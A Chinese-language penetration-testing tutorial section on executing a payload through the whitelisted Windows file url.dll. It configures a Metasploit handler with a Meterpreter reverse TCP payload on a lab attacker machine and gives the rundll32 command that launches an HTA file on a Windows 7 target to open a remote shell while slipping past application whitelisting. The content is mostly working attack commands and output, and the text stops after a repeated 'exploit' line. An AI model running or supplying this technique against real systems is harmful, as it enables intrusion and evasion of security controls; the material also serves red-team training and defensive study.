 ### 11.18 基于白名单Url.dll执行payload（十七）

**Url.dll简介：**

url.dll是Internet快捷壳扩展相关应用程序接口系统文件。

说明：url.dll所在路径已被系统添加PATH环境变量中，因此，url.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。

**Windows 2003 默认位置：**

    C:\Windows\System32\url.dll
    C:\Windows\SysWOW64\url.dll
    
        

**Windows 7 默认位置：**

    C:\Windows\System32\url.dll
    C:\Windows\SysWOW64\url.dll
    
        

攻击机： 192.168.1.4 Debian-
靶机： 192.168.1.3 Windows 7

**配置攻击机msf：**

    msf exploit(multi/handler) > show options
    
    Module options (exploit/multi/handler):
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    
    Payload options (windows/meterpreter/reverse_tcp):
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
    
    LHOST 192.168.1.4 yes The listen address (an interface may be specified)
    
    LPORT 53 yes The listen port
    
    Exploit target:
    
    Id Name
    ‐‐ ‐‐‐‐
    0 Wildcard Target
    
    msf exploit(multi/handler) > exploit
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010233337338.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：**

    rundll32.exe url.dll,FileProtocolHandler file://C:\Users\John\Desktop\Micropoor_url_dll.hta
    
        

    msf exploit(multi/handler) > exploit
    